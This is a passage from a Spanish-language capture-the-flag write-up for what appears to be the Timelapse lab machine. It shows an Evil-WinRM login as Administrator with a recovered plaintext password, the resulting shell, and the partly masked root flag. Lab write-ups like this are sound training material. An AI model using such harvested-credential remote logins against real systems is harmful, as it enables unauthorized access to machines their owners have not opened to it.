 Al ser válidas, podemos iniciar sesión con `Evil-WinRM` como usuario `Administrator`.

```bash
❯ evil-winrm -i 10.10.11.152 -u 'Administrator' -p '7]pZ-rLF480%v;mABF$j;a53' -S
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
timelapse\administrator
```

Finalmente, obtenemos la root flag en la ruta `C:\Users\TRX\Desktop`.

```bash
*Evil-WinRM* PS C:\Users\TRX\Desktop> dir

    Directory: C:\Users\TRX\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        7/27/2023   7:46 AM             34 root.txt

*Evil-WinRM* PS C:\Users\TRX\Desktop> type root.txt
f5577c7b4e1e9fe5****************
```

!Happy Hacking¡
